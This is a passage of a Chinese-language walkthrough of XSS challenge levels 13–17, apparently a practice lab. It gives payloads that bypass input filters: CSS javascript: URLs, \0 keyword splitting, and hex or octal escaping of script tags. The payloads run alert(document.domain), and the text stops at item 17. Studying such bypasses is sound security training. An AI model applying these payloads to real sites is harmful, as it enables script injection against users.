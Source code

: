 13. 题目简述：输入一段字符串，会将输入的内容放入input的style属性中。

> 漏洞：CSS中也可以嵌入js代码进行执行。在旧版的ie浏览器上才可以实现。
>
> 输入：
>
> ```html
> background-image: url(javascript:alert(document.domain))
> ```
>
> ![image-20200712184917191](C:\Users\50425\AppData\Roaming\Typora\typora-user-images\image-20200712184917191.png)

14. 题目简述：输入一段字符串，会将输入的内容放入input的style属性中，但其对url、expression、script、eval等名词进行了检测。

> 漏洞：可以在名词间插入\\0，因为浏览器会忽略掉\\0，从而绕过检测。
>
> 输入：
>
> ```html
> background-image: u\0rl(javascr\0ipt:alert(document.domain))
> ```
>
> ![image-20200712184923184](C:\Users\50425\AppData\Roaming\Typora\typora-user-images\image-20200712184923184.png)

15. 题目简述：输入一段字符串，会将输入的内容通过document.write()这个函数打印出来，并显示在页面上。且对大于小于号引号等非法符号进行了检测。

> 漏洞：可以使用16进制表示相应的非法符号，从而绕过检测。
>
> 输入：
>
> ```html
> \\x3cscript\\x3ealert(document.domain)\\x3c\\x2fscript\\x3e
> ```
>
> ![image-20200712184927962](C:\Users\50425\AppData\Roaming\Typora\typora-user-images\image-20200712184927962.png)

16. 题目简述：输入一段字符串，会将输入的内容通过document.write()这个函数打印出来，并显示在页面上。且对大于小于号引号等非法符号进行了检测，同时还对\\x进行了检测，即禁用了16进制。

> 漏洞：可以使用8进制来表示相应的非法符号，从而绕过检测。
>
> 输入：
>
> ```html
> \\74script\\76alert(document.domain)\\74\\57script\\76
> ```
>
> ![image-20200712184933582](C:\Users\50425\AppData\Roaming\Typora\typora-user-images\image-20200712184933582.png)

17. 题目简述：需要输入两个字符串，分别将输入的内容放在两个input的value中。将引号、大于小于号等非法符号实体编码。
